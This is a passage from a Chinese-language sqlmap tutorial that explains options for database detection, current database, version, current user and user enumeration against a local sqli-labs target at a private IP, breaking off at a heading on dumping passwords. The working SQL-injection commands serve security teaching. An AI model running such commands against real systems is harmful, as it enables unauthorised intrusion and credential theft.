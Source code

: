 ##  或者使用 「-batch」默认

```sqlmap
sqlmap -m url.txt -batch
```

> 使用**–batch**参数，可以在所有需要用户输入的部分（通常是询问执行yes还是no，Y/N），执行默认操作，即选项大写的那个，不需要用户再输入

- 「--dbms」指定该网站数据库类型
- sqlmap支持的数据库包括且不限于
1. 「MySQL」
2. 「Oracle」
3. 「PostgreSQL」
4. 「Microsoft SQL Server」
5. 「Microsoft Access」
6. 「IBM DB2」
7. 「SQLite」
8. 「Firebird」
9. 「Sybase」
10. 「SAP MaxDB」

> sqlmap默认情况下会自动检测Web应用程序的后端数据库的类型。
> 当我们明确知道测试的数据库类型时，可以使用**--dbms**可以指定数据库。
> 例如：
```sqlmap
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --dbms='mysql'
```

##  「--current-db」获取网站当前使用的数据库

```sqlmap
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --dbms='mysql' --current-db
```

##  「-b」获取数据库版本

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -b
```

##  「--current-user」获取当前用户

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' --current-user
```

##  「--users」 获取所有用户

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' -users
```

## 「--passwords」 获取用户密码
